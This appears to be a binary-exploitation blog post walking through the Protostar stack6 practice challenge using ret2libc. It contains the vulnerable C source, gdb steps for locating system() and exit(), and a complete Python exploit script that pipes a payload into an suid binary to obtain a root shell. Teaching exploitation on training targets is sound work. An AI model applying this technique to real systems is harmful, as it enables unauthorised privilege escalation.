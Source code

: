 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , ret2libc - protostar stack6
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Exploit Development, Buffer Overflow, c, Python]
image: binary-exploitation/BOF6/0.png
---
```

<hr>
### Introduction
#### Hey guys , In the last post about buffer overflow we exploited a buffer overflow vulnerability where we were able to inject a shellcode and escalate privileges to root. But that was possible because we were able to overwrite the return address to another address on the stack where we placed our shellcode , but what if the stack is non-executable ? we will perform an attack called ret2libc and that's what we are going to discuss today with protostar - stack6. Without wasting more time let's jump right in !
#### Read the [previous posts](/categories/#binary-exploitation) if you haven't yet.
![](/images/binary-exploitation/BOF6/0.png)
<hr>
### ./stack6
#### As always we are given the source code of the binary :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
        char buffer[64];
        unsigned int ret;

        printf("input path please: "); fflush(stdout);

        gets(buffer);

        ret = __builtin_return_address(0);

        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }

        printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
        getpath();



}
```
#### What this code is doing is just printing `input path please:` then it stores our input in a buffer of 64 chars and finally it prints it out:
![](/images/binary-exploitation/BOF6/1.png)
#### Our problem is this `if` statement :
```
        if((ret & 0xbf000000) == 0xbf000000) {
                printf("bzzzt (%p)\n", ret);
                _exit(1);
        }
```
#### This is making sure that the return address is not on the stack , which makes it not possible to perform a shellcode injection like we did in the [previous example](/binary-exploitation/bof5/). We can defeat this by a technique called ret2libc.
<br>
<hr>
### ret2libc
#### So what is "ret2libc" ? If we take the word itself : "ret" is return , "2" means to and "libc" is the C library. The idea behind ret2libc is instead of injecting shellcode and jumping to the address that holds that shellcode we can use the functions that are already in the C library. For example we can call the function `system()` and make it execute `/bin/sh`. (Read about `system()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)). We will also need to use the function `exit()` to make the program exit cleanly. (Read about `exit()` [here](https://www.tutorialspoint.com/c_standard_library/c_function_exit.htm)).
#### So finally our attack payload will be : "padding --> address of `system()` --> address of `exit()` --> `/bin/sh`" instead of : "padding --> new return address --> NOP --> shellcode".
#### Now let's see how will we do it.
<br>
<hr>
### Exploiation 
#### Again , this will execute `/bin/sh` as root because this binary is an `suid` binary. If it wasn't `suid` we would get a shell as the same user. We can check by using `find` :
`find /opt/protostar/bin/ -perm -4000 | grep stack6`
![](/images/binary-exploitation/BOF6/2.png)
#### As you can see `stack6` is an `suid` binary.
#### So first of all , after we call `system()` we will need to give it `/bin/sh` , how will we do that ? A nice way to do it is to store `/bin/sh` in an environment variable. I created a variable and called it `SHELL` :
![](/images/binary-exploitation/BOF6/3.png)
#### Now we need to find the address of that variable , we can do it from `gdb` by setting a breakpoint at main , then running the program and doing this : `x/s *((char **)environ+x)` where `x` is a number , This will print the address of an environment variable. We will keep trying numbers until we get the address of `SHELL`
#### But I found a better way to do it when I was reading an article on [shellblade](https://www.shellblade.net/). We will use a `c` program to tell us the estimated address.
#### Code :
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char **argv)
{
        char *ptr = getenv("SHELL");
        if (ptr != NULL)
        {
                printf("Estimated address: %p\n", ptr);
                return 0;
        }
}
```
![](/images/binary-exploitation/BOF6/4.png)
#### Then we will compile it : `gcc address.c -o address` :
![](/images/binary-exploitation/BOF6/5.png)
#### As you can see it's telling us the address of the environment variable `SHELL`. Now keep in mind that this is not the "exact" address and we will need to go up and down to get the right address.
#### Let's start by finding the offset. As we did before we will use `pattern_create.rb` and `pattern_offset.rb` from metasploit exploitation tools.
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF6/6.png)
#### We have our pattern now let's run the program in gdb and set a breakpoint before main `break *main`. Then we will type `c` to continue and paste the pattern. The buffer will overflow and we will see exactly where did the overflow happen : 
![](/images/binary-exploitation/BOF6/7.png)
#### We got the address `0x37634136` , now let's go back and use `pattern_offset.rb` :
`./pattern_offset.rb -q 0x37634136`
![](/images/binary-exploitation/BOF6/8.png)
#### So after 80 chars the buffer overflows. Next thing to check is the addresses of `system()` and `exit()`. From gdb we will set a break point at main and type `r` to run the program. After it reaches the break point and breaks we can get the address of system by typing `p system` and we will do the same thing for exit `p exit` :
![](/images/binary-exploitation/BOF6/9.png)
#### Address of system : `0xb7ecffb0`
#### Address of exit : `0xb7ec60c0`
#### Lastly we will check the address of `SHELL` again because it's subject to change :
![](/images/binary-exploitation/BOF6/10.png)
#### Address : `0xbffff985` 
#### Let's check our notes :
![](/images/binary-exploitation/BOF6/11.png)
#### Ok , we are ready to write our exploit , we will use struct `import struct` like we did before. We will create a variable for the chars we will use to fill the buffer and call it `buffer` , its value will be 80 A's.
`buffer = "A" * 80`
#### Then we will create 3 variables to hold the addresses of `system()` , `exit()` and `SHELL`. We will use struct to reverse the addresses.
`system = struct.pack("I" ,0xb7ecffb0)`
<br>
<br>
`exit = struct.pack("I" ,0xb7ec60c0)`
<br>
<br>
`shell = struct.pack("I" ,0xbffff985)`
#### And finally we will print the payload.
`print buffer + system + exit + shell`
#### Final script :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff985)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/12.png)
#### We have to remember that the address of `SHELL` is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6` :
![](/images/binary-exploitation/BOF6/13.png)
#### And no shell , After going up and down by editing the address in the python script I finally got the right address which is `0xbffff992` :
`python /tmp/stack6.py > /tmp/payload`
<br>
<br>
`cat /tmp/payload - | ./stack6`
![](/images/binary-exploitation/BOF6/14.png)
#### root shell!
#### So after editing the address of `shell` variable , the script will be like this :
```
import struct

buffer = "A" * 80
system = struct.pack("I" ,0xb7ecffb0)
exit = struct.pack("I" ,0xb7ec60c0)
shell = struct.pack("I" ,0xbffff992)

print buffer + system + exit + shell
```
![](/images/binary-exploitation/BOF6/15.png)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5](/binary-exploitation/bof5/)
<hr>
